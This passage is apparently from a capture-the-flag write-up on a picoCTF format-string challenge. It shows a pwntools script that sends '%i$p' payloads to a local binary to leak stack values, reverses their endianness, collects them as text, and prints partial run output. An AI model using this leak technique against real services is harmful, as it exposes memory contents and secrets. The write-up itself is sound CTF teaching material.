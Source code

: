 And we can keep on going to see if there's any string in the stack leaked. Doing this manually will take a lot of time so instead i'll use a script to fuzz for the first 100 address on the stack 

```
from pwn import *

context.log_level = 'info'

string = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        #io = remote('localhost', 1337, level='warn')
        io = process('./vuln')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline('%{}$p'.format(i).encode())
        # Receive the response (leaked address followed by '.' in this case)
        io.recvuntil(b"Here's a story -")
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up list of string leaked
                string += reversed_hex.decode()
            except BaseException:
                pass
        io.close()
    except EOFError:
        io.close()

# Print and close
info(string)
```

While it fuzz address using `%i$p` where i is the range its fuzzing

It will then convert those address to string and decode its endianess then save it in a string variable

So after it runs finish it prints out the list of strings found

Lets run it 

```
──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/flakleak]
└─$ python3 exploit.py 
[+] Starting local process './vuln': pid 42901
[*] Process './vuln' stopped with exit code 0 (pid 42901)
0:  
%0$p

[+] Starting local process './vuln': pid 42903
1:  

[*] Stopped process './vuln' (pid 42903)
[+] Starting local process './vuln': pid 42905
2:  

[*] Stopped process './vuln' (pid 42905)
[+] Starting local process './vuln': pid 42907
```
